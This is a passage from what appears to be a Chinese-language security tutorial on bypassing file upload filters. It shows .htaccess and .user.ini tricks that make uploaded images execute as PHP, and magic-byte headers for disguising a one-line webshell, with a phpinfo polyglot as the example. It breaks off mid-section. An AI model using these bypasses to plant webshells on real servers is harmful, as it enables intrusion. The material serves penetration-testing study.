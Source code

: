 #### 5. 文件攻击
- <b>.htaccess</b>文件攻击  
通过.htaccess文件调用php解析器去解析一个文件名中只要包含"haha"这个字符串的任意文件，无论扩展名是什么(没有也行)，都以php的方式来解析，.haccess文件代码如下：

> ```
<FilesMatch "haha">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个文件名为evil.gif的图片马：
```
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个后缀为png的图片马：
```
<Files *.png>
SetHandler application/x-httpd-php
</Files>
```

- <b>.user.ini</b>文件攻击  

> ```
只要中间键是以fastcgi运行的php都可以用这个方法，.user.ini能被动态加载，它也有两个配置
项：auto_append_file和auto_prepend_file，只要在.user.ini中添加auto_prepend_file=aa.jpg
这句话，就可以让其他php文件执行前自动包含aa.jpg，和require()类似。
```
{{% fluid_img src="/img/post/upload_vuln_file_attack1.png" alt="上传漏洞-文件攻击1.png" %}}
<br /><br />
{{% fluid_img src="/img/post/upload_vuln_file_attack2.png" alt="上传漏洞-文件攻击2.png" %}}

#### 6. 检测文件内容
- 文件幻数检测  
在文件首部加上如下幻数，后面跟一句话木马即可

> ```
JFIF    FF D8 FF E0 00 10 4A 46 49 46
GIF89a  47 49 46 38 39 61
PNG     89 50 4E 47
```

- 文件相关信息检测  
通常用的getimagesize()函数，只需要在幻数基础上加一些文件信息就行了，如下：

> ```
GIF89a
(...some binary data for image...)
<?php phpinfo(); ?>
(... skipping the rest of binary data ...)
```

- 文件加载检测  
服务端会调用API或函数对文件进行加载测试，常见的是图像渲染测试，变态的甚至是二次渲染：
